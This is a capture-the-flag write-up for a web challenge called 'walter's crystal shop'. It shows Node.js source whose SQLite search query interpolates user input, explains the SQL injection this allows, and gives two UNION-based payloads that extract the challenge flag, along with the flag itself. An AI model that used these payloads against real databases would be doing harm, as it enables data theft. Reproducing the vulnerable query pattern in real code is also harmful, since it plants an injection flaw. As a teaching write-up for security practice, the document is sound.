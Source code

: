 # walter's crystal shop
162 solves / 241 points
> My buddy Walter is selling some crystals, check out his shop!

## About the Challenge
We were given a website and source code (You can download the source code [here](walters_crystal_shop.zip)). Searching a crystal name is the only functionality of the website.

![1](images/image.png)

## How to Solve?
Looking at the source code, the flag was stored in `flag` table with the column `flag`.
```js
...
  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
...
```
And the website is vulnerable for SQL Injection (SQLite).
```js
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});
```
Focusing on the database query
```sql
SELECT * FROM crystals WHERE name LIKE '%${name}%'
```
And entering `h` in the website's search bar, the query will be like this
```sql
SELECT * FROM crystals WHERE name LIKE '%$h%'
```
With knowledge in SQLite documentation, uniting tables with different columns must have same column name as the one with greater columns. We can enter the search bar with
```
%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf
```
The query would be
```sql
SELECT * FROM crystals WHERE name LIKE '%%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf%'
```
![2](images/image2.png)
```
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```
## Alternative Solution
Using SQL Injection Payload in search query
```
' union select (select * from flag),2,3-- -
```